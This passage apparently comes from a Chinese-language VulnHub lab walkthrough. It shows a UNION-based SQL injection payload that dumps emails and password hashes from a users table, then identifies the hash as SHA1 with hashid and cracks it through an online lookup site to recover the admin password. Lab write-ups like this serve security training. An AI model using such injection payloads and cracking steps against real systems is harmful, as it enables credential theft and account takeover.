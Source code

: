 ```
查找email和pass密码字段的内容。
' union select 1,2,3,group_concat(email,"--",pass),5,6,7,8 from users#
于是得到账号和密码，其中密码是经过加密的。
admin@isints.com--c2c4b4e51d9e23c02c15702c136c3e950ba9a4af
```

![image-20241207184016695](vulnhub靶场实战/image-20241207184016695.png)	

```
使用该命令，判断出加密的算法很可能是sha1哈希加密
hashid c2c4b4e51d9e23c02c15702c136c3e950ba9a4af
```

![image-20241207184351344](vulnhub靶场实战/image-20241207184351344.png)	

```
使用该网站https://www.somd5.com去碰撞哈希值，看看能否破解出来。
得到密码是killerbeesareflying
```

